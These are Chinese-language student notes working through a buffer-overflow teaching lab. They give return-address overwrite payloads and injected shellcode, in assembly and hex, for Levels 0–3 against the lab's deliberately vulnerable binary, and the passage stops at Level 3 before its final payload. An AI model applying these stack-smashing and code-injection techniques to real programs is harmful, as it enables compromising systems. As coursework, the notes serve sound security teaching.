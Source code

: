 # buffer lab学习笔记

这个lab的任务和attach_lab一样，也是要求通过栈溢出控制程序流程完成相应任务
## Level 0: Candle (10 pts)
令test函数调用完getbuf函数后执行smoke函数
smoke函数源代码
```
void smoke()
{
printf("Smoke!: You called smoke()\n");
validate(0);
exit(0);
}
```
使用gdb查看smoke函数的地址
```
pwndbg> p smoke
$1 = {<text variable, no debug info>} 0x8048c18 <smoke>
```
然后计算栈溢出偏移是44，能覆盖到eip
构建如下格式的十六进制字符完成题目要求
```
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
18 8c 04 08
```

![avatar](https://github.com/AmaIIl/buffer-lab/blob/gh-pages/image1.png)

## Level 1: Sparkler (10 pts)
同level_0的要求，这次需要跳转到fizz函数内
fizz函数源码
```
void fizz(int val)
{
if (val == cookie) {
printf("Fizz!: You called fizz(0x%x)\n", val);
validate(1);
} else
printf("Misfire: You called fizz(0x%x)\n", val);
exit(0);
}
```
这里有个要求是需要让传参等于cookie，因为是32位的程序，所以是栈传参
并且在函数调用时先压入参数再压入返回地址，构造如下内容完成实验
```
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
42 8c 04 08
00 00 00 00
b8 da 18 28
```

![avatar](https://github.com/AmaIIl/buffer-lab/blob/gh-pages/image2.png)

## Level 2: Firecracker (15 pts)
题目要求和上面的一样，跳转到bang函数上
查看bang函数源码
```
int global_value = 0;
void bang(int val)
{
if (global_value == cookie) {
printf("Bang!: You set global_value to 0x%x\n", global_value);
validate(2);
} else
printf("Misfire: global_value = 0x%x\n", global_value);
exit(0);
}
```
可以看到需要让全局变量global_value的值和cookie值相同，并且writeup中的提示让我们进行code-injection
与attack-lab的做法一样，通过注入代码后控制eip跳转到我们注入代码的位置
构造如下汇编代码令global_value的值等于cookie
```
mov    $0x2818dab8, %eax //eax = cookie
mov    %eax, 0x0804D100  //0x0804D100 --> [global_value_address] = cookie
push   $0x08048c9d       //bang_address
ret

```
使用gcc将其转变为
```
b8 b8 da 18 
28 89 04 25
00 d1 04 08 
68 9d 8c 04 
08 c3
```
通过gdb调试获得注入代码的位置
```
pwndbg> x/20gx $esp
0x556837c8 <_reserved+1038280>:	0xf7fb6404556837d8	0xbf153c007f87426a
0x556837d8 <_reserved+1038296>:	0x2504892818dab8b8	0x048c9d680804d100
0x556837e8 <_reserved+1038312>:	0x000000000000c308	0x0000000000000000
```
可以看到注入位置在0x556837d8处，然后我们就可以构造hex完成本题了
```
b8 b8 da 18 
28 89 04 25
00 d1 04 08 
68 9d 8c 04 
08 c3 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
d8 37 68 55
```

![avatar](https://github.com/AmaIIl/buffer-lab/blob/gh-pages/image3.png)

## Level 3: Dynamite (20 pts)
本题要求：
```
修改getbuf()返回值为对应cookie，而不是1；
恢复test函数中的%ebp寄存器内容；
返回到接下去test()函数执行位置正常执行。
```
因为函数的返回值是使用eax寄存器实现的，所以我们可以使用上一个实验的办法进行代码注入后修改eax中的值为cookie再跳转回test函数
而要保证不破坏栈的布局则需要不修改ebp的值，通过gdb获取ebp的值

![avatar](https://github.com/AmaIIl/buffer-lab/blob/gh-pages/image4.png)

使用与上一个实验同样的步骤将下面的汇编代码转为16进制字符串
```
mov   $0x2818dab8, %eax //eax = cookie
push  $0x8048dbe        //test_address
ret
```



